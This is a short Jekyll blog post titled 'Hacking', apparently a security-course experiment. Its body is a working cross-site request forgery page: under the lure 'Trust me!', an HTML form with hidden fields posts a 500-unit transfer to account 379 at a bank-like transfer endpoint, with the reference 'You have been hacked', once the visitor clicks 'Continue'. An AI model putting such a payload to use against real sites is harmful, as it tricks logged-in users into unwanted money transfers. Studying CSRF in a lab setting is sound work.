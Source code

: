 ```yaml
---
layout: post
title: Hacking
description: experiment
tags: no tags yet
---
```


### Trust me!
<form action="http://robthebank.soton.ac.uk/transactions/transfer" class="well" id="TransactionTransferForm" method="post" accept-charset="utf-8">
	<div style="display:none;">
	<input type="hidden" name="_method" value="POST">
	<input name="data[Transaction][to]" class="form-control" type="hidden" id="TransactionTo" required="required" value="379">
	<input name="data[Transaction][reference]" class="form-control" maxlength="255" type="hidden" id="TransactionReference" required="required" value="You have been hacked">
	<input name="data[Transaction][amount]" class="form-control" style="width: 100px" step="any" type="hidden" id="TransactionAmount" required="required" value="500">
</div>
<input class="btn btn-primary" type="submit" value="Continue">
</form>



****
